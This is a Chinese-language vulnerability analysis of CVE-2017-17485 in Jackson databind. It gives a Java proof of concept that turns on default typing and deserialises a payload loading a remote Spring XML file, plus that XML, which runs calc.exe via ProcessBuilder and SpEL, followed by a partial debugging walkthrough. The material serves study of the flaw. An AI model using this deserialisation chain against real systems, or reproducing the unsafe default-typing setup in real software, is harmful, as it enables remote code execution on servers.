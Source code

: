 ### 复现

```plain
package CVE201717485;

import com.fasterxml.jackson.databind.ObjectMapper;

import java.io.IOException;

public class PoC {
    public static void main(String[] args)  {

        String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1/spel.xml\"]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        try {
            mapper.readValue(payload, Object.class);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

```plain
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg value="calc.exe" />
        <property name="whatever" value="#{ pb.start() }"/>
    </bean>
</beans>
```

指定了 java.lang.ProcessBuilder 类 写入了所需执行的命令

[![](assets/1701606625-5b084554ad28a2e7ffed309693627ba0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114145908-4e6e1302-82bb-1.png)

### 调试分析

[![](assets/1701606625-71c94f083ff595f88fcaa7a00a4b3380.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114145959-6ccbb35e-82bb-1.png)

跟进到`UntypedObjectDeserializer.deserializeWithType`​ Token 的 name 是 START\_ARRAY 会调用`AsArrayTypeDeserializer._derialize`​来解析数组

[![](assets/1701606625-541bdedb16e3419de3bb7743ee77c9e3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114150022-7b0b433a-82bb-1.png)

调用到`BeanDeserializer.deserialize`​​​ 在这里 Token 变成 VALUE\_STRING 并不是一个 startToken 所以`isExpectedStartObjectToken()`​​​ 返回 false 所以随后跳到`_deserializeOther`​​​
